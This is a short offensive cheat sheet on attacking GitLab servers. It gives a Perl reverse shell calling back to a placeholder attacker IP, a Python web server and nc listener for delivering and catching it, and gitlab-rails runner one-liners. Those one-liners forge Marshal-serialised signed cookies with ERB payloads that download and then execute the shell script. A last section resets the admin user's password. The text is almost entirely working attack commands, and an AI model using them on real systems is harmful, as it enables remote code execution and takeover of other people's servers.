 # gitlab

## gitlab-rails

### :hybrid cookies_serializer rce

    # on attacker:
    # create a reverse shell
    $ cat run.sh
    perl -e 'use Socket;$i="<ATTACKER_IP>";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    # deliver reverse shell
    $ python3 -m http.server 8000
    # listen for a reverse shell
    $ nc -v -l -p 6666

    # on victim's gitlab server:
    # pull the perl reverse shell
    $ gitlab-rails runner 'request = ActionDispatch::Request.new(Rails.application.env_config);request.env["action_dispatch.cookies_serializer"] = :marshal;cookies = request.cookie_jar; erb = ERB.new("<%= `curl http://<ATTACKER_IP>:8000/run.sh -o /tmp/run.sh` %>"); depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new); cookies.signed[:cookie] = depr; puts cookies[:cookie]'
    # trigger the reverse shell
    $ gitlab-rails runner 'request = ActionDispatch::Request.new(Rails.application.env_config);request.env["action_dispatch.cookies_serializer"] = :marshal;cookies = request.cookie_jar;erb = ERB.new("<%= `bash /tmp/run.sh` %>");depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new);cookies.signed[:cookie] = depr;puts cookies[:cookie]'

### reset admin password

    $ gitlab-rails runner 'user = User.where(id: 1).first; puts "#{user.name} #{user.email}"; user.password = "surprise!"; user.password_confirmation = "surprise!"; user.save!'
    John Doe admin@example.com
